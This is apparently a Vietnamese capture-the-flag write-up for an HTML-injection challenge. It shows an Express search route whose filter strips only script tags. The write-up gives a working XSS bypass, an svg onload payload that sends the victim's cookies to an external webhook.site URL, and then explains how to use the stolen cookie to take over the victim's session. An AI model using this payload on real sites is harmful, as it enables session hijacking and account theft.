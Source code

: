 # HTML Injection 2

# Thử thách về lỗi bảo mật HTML Injection

# Mục tiêu: Đọc note của nạn nhân
# Cách giải quyết:
đây là một lỗi bảo mật HTML Injection, có thể được khai thác để thực hiện tấn công XSS (Cross-Site Scripting). Để giải quyết vấn đề này, ta cần lọc bỏ các thẻ `<script>` trong chuỗi tìm kiếm.


Code lv2:
```
router.get('/search', function (req, res, next) {
    // Sử dụng regex để replace <script> tag
    // Flag g: dùng để match tất cả ký tự trong mẫu tìm kiếm
    // Flag i: case insensitve không phân biệt chữ hoa chữ thường
    sanitized_q = req.query.q.replace(/<script>|<\/script>/gi, "");
    html = 'Your search - <b>' + sani<tized_q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```
- Tìm kiếm với từ khóa: `<script>alert('XSS')</script>`
- Kết quả trả về: `Your search - <b>alert('XSS')</b> - did not match any notes.<br><br>.` 
- Kết quả trả về không có thẻ `<script>` nên không bị lỗi XSS   

Playload test
```
<svg/onload=fetch('https://webhook.site/3a6cea0c-0c4b-4528-a54e-421553192587?data='+document.cookie)>
```

# Kết quả trả về:
đã lấy được cookie của nạn nhân.ß
<img src='./img/Screenshot 2025-08-10 at 21.12.19.png'>

Playload hoàn chỉnh:
```
https://url/search?q=%3Csvg%2Fonload%3Dfetch%28%27https%3A%2F%2Fwebhook.site%2F3a6cea0c-0c4b-4528-a54e-421553192587%3Fdata%3D%27%2Bdocument.cookie%29%3E
```
# Kết quả:
- Cookie của nạn nhân đã được gửi đến `webhook`
- Lây được cookie của nạn nhân, ta có thể sử dụng để truy cập vào tài khoản của họ hoặc thực hiện các hành động khác trên trang web.
- Vào developer tools của trình duyệt, vào tab Application, chọn Cookies, ta có thể thấy cookie thay cookie của nạn nhân đã được gửi đến webhook.
- f5 để nhân cookie mới nhất.
- Vào mục `note` của nạn nhận để xem nội dung note của nạn nhân.

<img src='./img/Screenshot 2025-08-10 at 21.57.46.png'>

Lấy được flag của nạn nhân